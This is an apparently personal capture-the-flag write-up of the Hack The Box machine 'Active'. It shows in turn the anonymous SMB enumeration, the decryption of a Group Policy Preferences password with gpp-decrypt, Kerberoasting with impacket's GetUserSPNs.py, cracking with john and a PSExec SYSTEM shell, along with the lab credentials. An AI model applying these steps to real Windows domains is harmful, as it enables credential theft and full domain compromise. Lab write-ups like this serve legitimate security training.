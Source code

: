 ```yaml
---
title:     "Hack The Box - Active"
tags: [windows,easy,smb,kerberos,psexec]
layout: post
---
```



![73f757b7fcd980b15078520b34f12dd2.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-active/74a132f10e0d4e0797bf934c20a1a352.png)

We are going to pwn Active from Hack The Box.

Link: <https://www.hackthebox.eu/home/machines/profile/148>

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5722/tcp  open  msdfsr
9389/tcp  open  adws
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49169/tcp open  unknown
49171/tcp open  unknown
49182/tcp open  unknown
```
There are many ports open, let's start with `SMB`

## SMB:

I logged in without the password.
```
root@w0lf:~# smbclient -L 10.10.10.100 
Enter WORKGROUP\root's password: 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      
SMB1 disabled -- no workgroup available
```
Let's check what's inside them.

It seems like I only have access to `Replication`
>smbclient //10.10.10.100/Replication

```
root@w0lf:~# smbclient //10.10.10.100/Replication
Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 21 16:07:44 2018
  ..                                  D        0  Sat Jul 21 16:07:44 2018
  active.htb                          D        0  Sat Jul 21 16:07:44 2018

		10459647 blocks of size 4096. 4922655 blocks available
```
```
smb: \> cd active.htb
smb: \active.htb\> ls
  .                                   D        0  Sat Jul 21 16:07:44 2018
  ..                                  D        0  Sat Jul 21 16:07:44 2018
  DfsrPrivate                       DHS        0  Sat Jul 21 16:07:44 2018
  Policies                            D        0  Sat Jul 21 16:07:44 2018
  scripts                             D        0  Thu Jul 19 00:18:57 2018

		10459647 blocks of size 4096. 4922655 blocks available
smb: \active.htb\> 
```

I downloaded all the files in the box to my machine using `smbget`.
```
root@w0lf:~/CTF/HTB/Boxes/Active# smbget -R smb://10.10.10.100/Replication/
Password for [root] connecting to //Replication/10.10.10.100: 
Using workgroup WORKGROUP, user root
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI                                                                                                                                            
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Group Policy/GPE.INI                                                                                                                               
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf                                                                                                   
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml                                                                                                              
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol                                                                                                                               
smb://10.10.10.100/Replication//active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI                                                                                                                                            
smb://10.10.10.100/Replication//active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf                                                                                                   
Downloaded 8.11kB in 33 seconds
```

I found a Interesting file `Groups.xml` in `\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\`

That file contains username and an encrypted password. It's a GPP Password.
![sample.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-active/24959afb5d6e44d98d32b8dcaec80e67.png)


There is a tool in kali `gpp-decrypt` to crack this password.
To know more about what is `cpassword` and `GPP`, you can read [here](https://adsecurity.org/?p=2288).
```
root@w0lf:~/CTF/HTB/Boxes/Active/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups# gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
/usr/bin/gpp-decrypt:21: warning: constant OpenSSL::Cipher::Cipher is deprecated
GPPstillStandingStrong2k18
```
So the password is `GPPstillStandingStrong2k18`.

## User:

I logged in as `SVC_TGS : GPPstillStandingStrong2k18`
```
root@w0lf:~/CTF/HTB/Boxes/Active# smbclient //10.10.10.100/Users -U "SVC_TGS"
Enter WORKGROUP\SVC_TGS's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 20:09:20 2018
  ..                                 DR        0  Sat Jul 21 20:09:20 2018
  Administrator                       D        0  Mon Jul 16 15:44:21 2018
  All Users                         DHS        0  Tue Jul 14 10:36:44 2009
  Default                           DHR        0  Tue Jul 14 12:08:21 2009
  Default User                      DHS        0  Tue Jul 14 10:36:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 10:27:55 2009
  Public                             DR        0  Tue Jul 14 10:27:55 2009
  SVC_TGS                             D        0  Sat Jul 21 20:46:32 2018

		10459647 blocks of size 4096. 4922639 blocks available
```

Got User Flag:<br/>
![032652c6512aa3dc46398b218303cf90.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-active/8b2e0f9b19b241a28faf4d16ab74a337.png)

## Kerberosting:

We know port 88 is open, so we can move on to the kerberosting technique.

### Step 1:

First we need to get administrator Kerberos ticket. For that we can use `GetUserSPNs.py` from [impacket](https://github.com/SecureAuthCorp/impacket).
>GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS

![edacd9dbbaaf65bf047828e5b08df799.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-active/1be013c86ce44243b7ec30f8b61116d6.png)
Now we can crack this using `john`.

### Step 2:

Cracking the ticket using `john`<br/>
![033afd7f0ad9118331aaa540749471a9.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-active/797ea49a2e2846c4a38b012202d15e11.png)<br/>
And we got the administrator password : `Ticketmaster1968`

## Getting system Shell:

I can get a shell with PSExec which is also from Impacket.
![f56036627caa1deb8121811a74e7e25e.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-active/59b5673a954140508edae991d29f4b71.png)

We own the root!!












